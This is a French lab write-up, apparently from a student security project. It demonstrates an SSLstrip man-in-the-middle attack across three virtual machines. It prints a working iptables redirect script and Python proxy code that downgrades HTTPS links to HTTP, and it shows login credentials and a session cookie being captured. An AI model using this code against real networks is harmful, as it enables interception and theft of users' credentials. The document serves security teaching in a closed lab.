 # Attaque SSLstrip

L'attaque SSLstrip a été présentée pour la première fois par Moxie à la Blackhat de 2009.

Cette attaque consiste à remplacer dans les requêtes HTTP, toutes les références à des URL pointant vers des liens HTTPS par leurs version HTTP. Cette attaque était efficace notamment lorsque seule la page de login était sécurisée en HTTPS mais que le reste du site utilisait le protocole HTTP.

----------------------------------------------

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topologie](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/topology) des machines mise en place :

```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Cette topologie n'est pas forcément réaliste car rare sont les cas où l'attaquant est dans le réseau du client attaqué.

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut configurer l'autorité de certification dans firefox. Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/grave/start.sh)

## Machine "opeth" (www.opeth.local)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connexions HTTPS a été généré avec les scripts [create-ca.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/create-ca.sh) et [new-cert.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/new-cert.sh) de la façon suivante :

```
$ cd CA
$ ./create-ca.sh
$ ./new-cert.sh
```

Le serveur héberge deux pages :

  - une page [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php) que l'on accéde en HTTP et présentant un formulaire de login.

  - une page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php) que l'on accéde en HTTPS depuis la page index.php.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/tree/master-b64c24f/sslstrip/immortal/attack.sh).

Cette VM est configurée pour forwarder les paquets entre opeth et grave.


------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt qemunet) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave, que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](../medias/sslstrip/screen1.png?raw=true)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](../medias/sslstrip/screen2.png?raw=true)

Nous arrivons alors sur la page secure.php, en HTTPS : la machine immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](../medias/sslstrip/screen3.png?raw=true)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
```

La règle iptables permet de rediriger les flux TCP à destination du port 80 (HTTP) vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

![screen4](../medias/sslstrip/screen4.png?raw=true)

### Explication du code du proxy

Le code du proxy est dans le fichier [sslstrip.py](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/sslstrip.py).

#### Réception des requêtes

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

- fermer la connexion (le client ou le serveur a fermé sa socket)
- établir une connexion https, dans le cas où le client demande la page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php)
- établir une connexion http, dans le cas où le client demande la page d'accueil [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php)

Voici la fonction implémentant la reception d'une requête HTTP :

```python
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)

```

A la fin, on transforme tous les liens __https__ trouvé en __http__ et on recalcule la taille de la requête (entête Content-Length).

#### Transformation des liens

La transformation se fait à l'aide d'une expression régulière qui remplace __https://__ par __http://__ dans les données HTTP.

```python
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)
```

#### Recalcule de l'entête Content-Length

Il faut ensuite recalculer l'entête Content-Length, en se basant sur le début des données HTTP situées après la séquence "\r\n\r\n" :

```python
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
```

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que tous les liens https:// sont remplacés par http://.

La machine immortal est donc capable d'intercepter les échanges réalisés sur la page secure.php. Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](../medias/sslstrip/screen5.png?raw=true)

Nous constatons que nous arrivons sur la page secure.php en HTTP : notre navigation n'est pas sécurisée !

![screen6](../medias/sslstrip/screen6.png?raw=true)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session :

![screen7](../medias/sslstrip/screen7.png?raw=true)
